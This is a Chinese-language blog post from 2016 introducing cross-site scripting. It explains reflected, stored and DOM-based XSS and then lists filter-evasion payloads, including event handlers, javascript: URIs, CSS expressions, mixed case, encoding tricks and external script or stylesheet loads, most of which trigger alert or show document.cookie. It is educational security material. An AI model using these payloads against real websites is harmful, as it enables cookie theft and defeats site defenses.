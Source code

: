 ```yaml
---
layout: post
title: XSS 入门
category: old_blog
tags: hack
keywords: xss, web
description:
---
```


> 本文写于 2016.04.10

- [引言](#引言)
- [XSS 分类](#xss-分类)
- [XSS 构造剖析](#xss-构造剖析)
- [结尾](#结尾)


## 引言
学习 Web 安全，必然是从 SQL 注射和 XSS 开始的，毕竟貌似比较基础。学习了几天，没挖出什么洞，只好先总结一下。。。
名言金句：见框就插、改数据包不可见部分、改 URL 参数、js 分析。


## XSS 分类
1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到 URL 地址的参数中，原理如下：发现存在反射 XSS 的 URL——根据输出点的环境构造 XSS 代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行 XSS 代码——完成攻击(获取 cookies、url、浏览器信息、IP 等)。反射型 XSS 的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。
例如：
```
http://www.test.com/search.php?key="><script>alert("XSS")</script>
http://www.test.com/view.shtml?query=%3Cscript%3Ealert%281%29%3C/script%3E
http://www.test.com/logout.asp?out=1&url=javascript:alert(document.cookie)
```
```seq
Title: 反射型XSS攻击流程
攻击者->受害者: XSS链接&恶意脚本
受害者->服务器: 请求
服务器->>受害者: 响应
```

![反射xss](/post_pic/xss_1.png)

2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意 JavaScript 代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。
```seq
Title: 持久型XSS攻击流程
攻击者->服务器: 注入恶意代码
受害者->服务器: 请求
服务器->>受害者: 响应
```

![持久xss](/post_pic/xss_2.png)

3、DOM XSS。前面两种 XSS 一般出现在服务器端代码中，而 DOM-Based XSS 是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用 `document.location`、`document.URL`、`document.referrer` 等对象获取数据。
举个例子，有如下 HTML 代码：
```
<html>
  <head>
    <title>Welcome!</title>
  </head>
  <body>
    <p>Hi</p>
    <script>
      var pos=document.URL.indexOf("name=")+5;
      document.write(document.URL.substring(pos,document.URL.length));
    </script>
  </body>
</html>
```
通常，这个欢迎网页的请求是这样的：
`http://www.test.com/welcome.html?name=lihua`
然而，如果这个请求是这样的：
`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`
这就导致了 XSS，弹出了 cookie。

4、最后贴一张比较图。

![xss](/post_pic/xss_3.png)


## XSS 构造剖析
现实中大多数的网站都有一个 XSS Filter，用来分析用户提交的输入，并消除潜在的跨站脚本攻击。XSS Filter 一般是基于黑白名单的安全过滤策略，于是就存在被绕过的可能。
１、利用 `<>` 标记注射 html/javascript。
如：`<script>alert('XSS'); </script>`
２、利用 html 标签属性值执行 XSS。很多 html 标记中的属性都支持 javascript:[code] 伪协议，可以尝试这些属性：`href`、`lowsrc`、`bgsound`、`background`、`value`、`action`、`dynsrc` 等。
举个例子：
`<table background="javascript:alert('xss')"></table>`
`<img src="javascript:alert('XSS');">`
３、空格回车 Tab。javascript 结束一条语句的方式有两种，一种是分号`;`，另一种是当 javascript 引擎确定一个句子完整，而这一行的结尾有换行符。
于是可以构造如下：
```
<img src="ja    vas
cript:
ale rt('XSS')>
```
４、进行各种转码。常用的 URL 编码，unicode 编码，HTML 编码，CSS 编码等。
５、产生事件法。javascript 和 html 通过事件来进行交互，事件能让 javascript 代码运行，也就能执行跨站脚本。
例如：
`<img src="#" onerror=alert('XSS')>`
`<input type="button" value="click me" onclick="alert('XSS')"/>`
６、利用 CSS 跨站。这一方法灵活多变而且隐蔽，可以嵌入到 html 中，如：
```
<div style="background-image:url(javascript:alert('XSS'))">
<style>
  body {background-image: url("javascript:alert('XSS')");}
</style>
```
也可以从其他文件中引用：
`<link ret="stylesheet" href="http://www.test.com/attack.css">`
`<style type='text/css'>@import url(http://www.test.com/attack.css);</style>`
还可以用 expression 执行 javascript：
```
<div style="width: expression(alert('XSS'));">
<img src="#" style="xss:expression(alert('XSS'));">
<style>
  body {background-image: expression(alert('XSS'));}
</style>
```
７、扰乱过滤规则。
大小写转换法：`<sCrIpt>alert('XSS')</ScripT>`
干扰字符污染法：`<div style="wid/****/th: expre/*XSS*/ssion(alert('XSS'));">`
字符编码法：`<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>`
拼凑法：`<scr<script>rip>alalertert</scr</script>rip>`


## 结尾
参考资料：
- 《XSS跨站脚本攻击剖析与防御》
- [freebuf/black-hole](http://www.freebuf.com/author/black-hole)
- [XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
